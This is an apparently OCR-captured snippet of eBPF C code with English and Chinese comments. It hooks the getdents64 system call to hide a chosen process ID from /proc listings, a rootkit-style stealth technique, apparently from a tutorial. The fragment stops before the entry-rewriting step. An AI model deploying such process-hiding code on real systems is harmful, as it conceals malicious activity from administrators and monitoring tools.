 ```c

// Optional Target Parent PID
// 目标父进程的 PID
const volatile int target_ppid = 0;

// These store the string represenation
// of the PID to hide. This becomes the name
// of the folder in /proc/
// 需要隐藏的 PID 的长度
const volatile int pid_to_hide_len = 0;
// 需要隐藏的 PID
const volatile char pid_to_hide[MAX_PID_LEN];

SEC("tp/syscalls/sys_enter_getdents64")
int handle_getdents_enter(struct trace_event_raw_sys_enter *ctx)
{
    // 主要功能是获取当前进程的进程组ID（TGID）和进程ID（PID）
    // PID位于低32位，而TGID位于高32位。对于多线程程序，所有线程共享相同的TGID，而PID则用于区分不同的线程。
    size_t pid_tgid = bpf_get_current_pid_tgid();
    // Check if we're a process thread of interest
    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0)
    {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid)
        {
            return 0;
        }
    }
    int pid = pid_tgid >> 32;
    unsigned int fd = ctx->args[0];
    unsigned int buff_count = ctx->args[2];

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    
    // getdents64 系统调用的第二个参数，它是一个指向 linux_dirent64 结构体的指针，代表了系统调用要读取的目录的内容。
    // 我们将这个指针以及当前的 PID 和线程组 ID 作为键值对保存到 map_buffs 这个 map 中。 
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);
    
    return 0;
}

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_exit(struct trace_event_raw_sys_exit *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int total_bytes_read = ctx->ret;
    // 如果没有读取到内容，我们就直接返回
    if (total_bytes_read <= 0)
    {
        return 0;
    }
    
    // 从 map_buffs 这个 map 中获取 getdents64 系统调用入口处保存的目录内容的地址
    // Check we stored the address of the buffer from the syscall entry
    long unsigned int *pbuff_addr = bpf_map_lookup_elem(&map_buffs, &pid_tgid);
    if (pbuff_addr == 0)
    {
        return 0;
    }

```